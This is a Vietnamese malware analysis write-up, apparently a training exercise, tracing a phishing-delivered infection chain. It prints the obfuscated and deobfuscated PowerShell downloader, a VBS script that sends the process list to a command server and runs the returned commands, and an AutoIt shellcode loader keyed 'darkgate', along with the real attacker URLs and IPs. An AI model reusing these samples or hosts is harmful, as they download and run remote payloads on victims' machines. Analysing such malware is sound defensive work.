 ### Luyện tập 1 - my_ant_ti3m

Luyện tập cho Zero2Automated

Link phishing: https://lingiangcosmetic.com/quotation

![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20112942.png)

View page source ta có thể thấy đường dẫn file ChungLG.js "đáng ngờ". Sau đó thông qua `search-ms` đẫn người dùng truy cập đến địa chỉ `194.87.31.108:8080` để thực hiện tải file độc hại

![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20113008.png)


![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20112838.png)

Người dùng bị lừa tải file shortcut(.lnk) và thực thi powershell script độc hại bị nhúng trong file `.lnk`

![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20113532.png)


```
$path = $env:TEMP + '\ldOGUevTtt.pdf';$secondPath=$env:TEMP+'\HYFmFrcWvQ.vbs';$pHqgh='';$pHqgh+='Invoke-WebRe';$WJNzC=690;$pHqgh+='quest -Uri "';$pHqgh+='http://89.23';$pHqgh+='.100.222:80/';$pHqgh+='foo/neverban';$TjHvT=9796;$pHqgh+='_SUCBAm.vbs"';$pHqgh+=' -OutFile $s';$pHqgh+='econdPath;St';$pHqgh+='art-Process ';$TzMnd= $WJNzC+ $WJNzC;$pHqgh+='-FilePath $s';$pHqgh+='econdPath;In';$pHqgh+='voke-WebRequ';$pHqgh+='est -Uri "ht';$RZjYx=167;$pHqgh+='tps://files.';$pHqgh+='catbox.moe/b';$pHqgh+='8bf3x.pdf" -';$pHqgh+='OutFile $pat';$yJYYz=9737;$pHqgh+='h;Start-Proc';$pHqgh+='ess -FilePat';$pHqgh+='h $path;';.([char](21*5) + [char](51+50) + [char](20*6)) $pHqgh;

```
Thực hiện deobfuscation đoạn powershell script thu được:
``` 
Invoke-WebRequest -Uri "http://89.23.100.222:80/foo/neverban_SUCBAm.vbs" -OutFile $secondPath;
Start-Process -FilePath $secondPath;
Invoke-WebRequest -Uri "https://files.catbox.moe/b8bf3x.pdf" -OutFile $path;
Start-Process -FilePath $path;
```
Khi đoạn powershell được thực thi file visual basic script đáng ngờ `SUCBAm.vbs` lưu tại `$path = $env:TEMP`

Nội dung file vbs
```
wecabepzyf = "cmd"
Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
dim all_process

Set colProcesses = objWMIService.ExecQuery("Select * from Win32_Process")
For Each objProcess in colProcesses
  all_process = all_process & objProcess.Name
Next



qezogvuos = "Shell.Application"



vhfvmeyvgucbd="http://vntricker.abcxzy.com:2351/nlhsapgv"
vwmlbmy="WINHTTP.WinHTTPRequest.5.1"



With CreateObject(vwmlbmy)
.Open "post", vhfvmeyvgucbd, False
.setRequestHeader "a", all_process
.send
vwmlbmy2 = .responseText
CreateObject(qezogvuos).ShellExecute wecabepzyf, vwmlbmy2 ,"","",0
End With

wscript.quit
MsgBox "ss"'slush devote minimum step between field play taxi bitter gallery nuclear stuff average elite lens reveal vague country illness pause vast claw girl omit sport april drip kiwi receive toilet category fox orient state artist earn laugh pumpkin target bike edit leader put tragic butter fiscal marble subject aware debris judge potato three bonus face mean search when crater glance napkin slam address desert hint piano switch broken feel minimum rule voice color fuel owner soft allow disagree jacket quantum term amateur dawn hybrid park such awkward domain illness pattern spice antenna deliver health pen spoon actress deposit hen opinion slide wink cross labor region tooth cry hope sad universe change fury model salt want consider guess panic subject ability debate gauge obvious special abuse defense hat peace size apart crash glance member seed twenty describe glove orbit slot wisdom clutch frequent mind shallow wool collect fiction magnet sail unusual bird egg ivory quality trap cabbage elephant length rabbit there camp extend library rally thumb answer delay ginger mutual second verb carry force opera sell wing catalog favorite lounge stand agent dial hood nice soap assume economy iron pledge stove alpha damp guess moon sibling abandon choice letter post sugar absurd course floor maze right velvet bottom engine kingdom ready vessel brave entire lonely
```
Chức năng của file `SUCBAm.vbs` gửi tất cả tiến trình đang chạy trên máy nạn nhân(mục đích có thể là kiểm tra máy nạn nhân có đang cài av hoặc file vbs đang chay trong môi trường ảo hóa hay không?) tới `http://vntricker.abcxzy.com:2351/nlhsapgv`. Sau đó sẽ nhận lại được cmd command từ phía C&C server và thực thi nó `vwmlbmy2 =.responseText;CreateObject(qezogvuos).ShellExecute wecabepzyf, vwmlbmy2 ,"","",0`

malicous command được nhận lại từ CnC Server:

![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20132318.png)


Lệnh hình trên với chức năng tải tệp thực thi Autoit.exe và tệp autoit script(.au3) độc hại và thực thi nó. 

Nội dụng file autoscript độc hại sau khi trích xuất:

```
LOCAL $XHKOUYMY
#NoTrayIcon
LOCAL $NZCLH
FUNC DECRYPTFILEWITHKEY($SFILEPATH,$SKEY)
LOCAL $XMDO
LOCAL $HFILE=FILEOPEN($SFILEPATH,16)
LOCAL $PSQCQA
LOCAL $JQVUEN
IF $HFILE=-1 THEN
LOCAL $EFSPOJC
MSGBOX(0,"Error","unable to open.")
LOCAL $KKJLNGV
RETURN SETERROR(1,0,"")
LOCAL $CQXZHMJC
ENDIF
LOCAL $YFUUQ
LOCAL $OVPF
LOCAL $BCONTENT=FILEREAD($HFILE)
LOCAL $EKLPP
FILECLOSE($HFILE)
LOCAL $WRYE
LOCAL $LPCLOBTK
LOCAL $SCONTENT=BINARYTOSTRING($BCONTENT)
LOCAL $IVRK
LOCAL $ISTART=STRINGINSTR($SCONTENT,"padoru")+6
LOCAL $YKMURDFMW
LOCAL $IEND=STRINGINSTR($SCONTENT,"padoru",0,-1,$ISTART)
LOCAL $WITXQN
LOCAL $QFYPF
IF $ISTART=6 OR $IEND=0 THEN
LOCAL $KDDH
MSGBOX(0,"Error","delimiter not found.")
LOCAL $ASYSTN
RETURN SETERROR(2,0,"")
LOCAL $SZMGNTKTG
ENDIF
LOCAL $PFAFRWZQ
LOCAL $KUXBBS
LOCAL $STODECRYPT=STRINGMID($SCONTENT,$ISTART,$IEND-$ISTART)
LOCAL $ESCTQGDEL
LOCAL $BTODECRYPT=STRINGTOBINARY($STODECRYPT)
LOCAL $CPJVPQ
LOCAL $IBLOCKSIZE=32768
LOCAL $WMONEERN
LOCAL $ILEN=BINARYLEN($BTODECRYPT)
LOCAL $XSEX
LOCAL $MQIEXVNMC
LOCAL $TBYTE=DLLSTRUCTCREATE("byte[1]")
LOCAL $JWWEB
LOCAL $IKEYALT=0,$B_DECRYPTED=BINARY("")
LOCAL $BDKSVERZU
LOCAL $IKEYLEN=STRINGLEN($SKEY)
LOCAL $ZAQVUPZ
LOCAL $RGDJOVN
FOR $I=1 TO $IKEYLEN
LOCAL $LEJBDITZV
$IKEYALT=BITXOR(BINARYMID($SKEY,$I,1),$IKEYALT)
LOCAL $IKXAHLJ
NEXT
LOCAL $BICSWZ
LOCAL $SXYDVYLD
FOR $I=1 TO $ILEN STEP $IBLOCKSIZE
LOCAL $ODNCABBAE
LOCAL $IBLOCKLEN=$IBLOCKSIZE
LOCAL $KSJXJW
IF $I+$IBLOCKLEN>$ILEN THEN $IBLOCKLEN=$ILEN-$I+1
LOCAL $CZXLDCNDT
LOCAL $BBLOCK=BINARYMID($BTODECRYPT,$I,$IBLOCKLEN)
LOCAL $AWDO
LOCAL $BDECRYPTEDBLOCK=BINARY("")
LOCAL $PUHV
FOR $J=1 TO BINARYLEN($BBLOCK)
LOCAL $FKDGGCW
EXECUTE(BINARYTOSTRING("0x202020202020202020202020446C6C53747275637453657444617461282474427974652C20312C20426974584F522842696E6172794D6964282462426C6F636B2C20246A2C2031292C2024694B6579416C742929"))
LOCAL $ZHIYV
$BDECRYPTEDBLOCK&=DLLSTRUCTGETDATA($TBYTE,1)
LOCAL $PXDIU
NEXT
LOCAL $FMZTUNVX
$B_DECRYPTED&=$BDECRYPTEDBLOCK
LOCAL $ZKELJB
NEXT
LOCAL $SIJD
LOCAL $FPVGHYUJF
RETURN $B_DECRYPTED
LOCAL $CVKFMB
ENDFUNC
LOCAL $TKFQLZGM
LOCAL $MILIAN
LOCAL $EOYWU
LOCAL $SKEY="darkgate"
LOCAL $UETGTR
LOCAL $SDECRYPTEDCONTENT=DECRYPTFILEWITHKEY(@SCRIPTFULLPATH,$SKEY)
LOCAL $MKHVNXLZM
LOCAL $IZEQ
LOCAL $YPZBWR
$OVSJZRCCSX=$SDECRYPTEDCONTENT
LOCAL $OEVLVQC
$IUFKJUJZVJ=DLLSTRUCTCREATE("byte["&BINARYLEN($OVSJZRCCSX)&"]")
LOCAL $ICADKEIYH
LOCAL $OLDPROTECT
LOCAL $DRXZUZG
LOCAL $XOCRJ
IF (NOT FILEEXISTS("C:\Program Files (x86)\Sophos"))THEN
LOCAL $LNGYN
EXECUTE(BINARYTOSTRING("0x446C6C43616C6C28226B65726E656C33322E646C6C222C2022424F4F4C222C20225669727475616C50726F74656374222C2022707472222C20446C6C53747275637447657450747228244975464B4A554A5A766A292C2022696E74222C2042696E6172794C656E28246F76736A5A5243435358292C202264776F7264222C20307834302C202264776F72642A222C20246F6C6470726F7465637429"))
;DllCall("kernel32.dll", "BOOL", "VirtualProtect", "ptr", DllStructGetPtr($IuFKJUJZvj), "int", BinaryLen($ovsjZRCCSX), "dword", 0x40, "dword*", $oldprotect)	
LOCAL $HBDT
ENDIF
LOCAL $VAHABQTNH
LOCAL $SGVZGT
EXECUTE(BINARYTOSTRING("0x446C6C5374727563745365744461746128244975464B4A554A5A766A2C20312C20246F76736A5A524343535829"))
;DllStructSetData($IuFKJUJZvj, 1, $ovsjZRCCSX)
LOCAL $NVSVP
EXECUTE(BINARYTOSTRING("0x446C6C43616C6C28227573657233322E646C6C222C20226C726573756C74222C20224322266368722839372926226C6C57696E646F7750726F63222C2022707472222C20446C6C53747275637447657450747228244975464B4A554A5A766A292C202268776E64222C20302C202275696E74222C20302C202277706172616D222C20302C20226C706172616D222C203029"))
;DllCall("user32.dll", "lresult", "C"&chr(97)&"llWindowProc", "ptr", DllStructGetPtr($IuFKJUJZvj), "hwnd", 0, "uint", 0, "wparam", 0, "lparam", 0)
LOCAL $FBFJJUVM
LOCAL $EYMMI
LOCAL $QTZMYCV
```

Đoạn mã trên autoit script trên có giải mã phần dữ liệu đươc đặt giữa 2 kí tự `padoru` và thưc hiện tiêm và thực thi đoạn [shellcode](https://github.com/myantti3m/DG_analysis/blob/main/shell.sc)
Thực hiện phân tích đoạn shellcode với IDA:
![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20133128.png)

Phân tích shellcode thấy chức năng của nó drop và thực thi file PE độc hại
Trích xuất file PE từ shellcode thu được:
![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20151005.png)

To be continued!!!
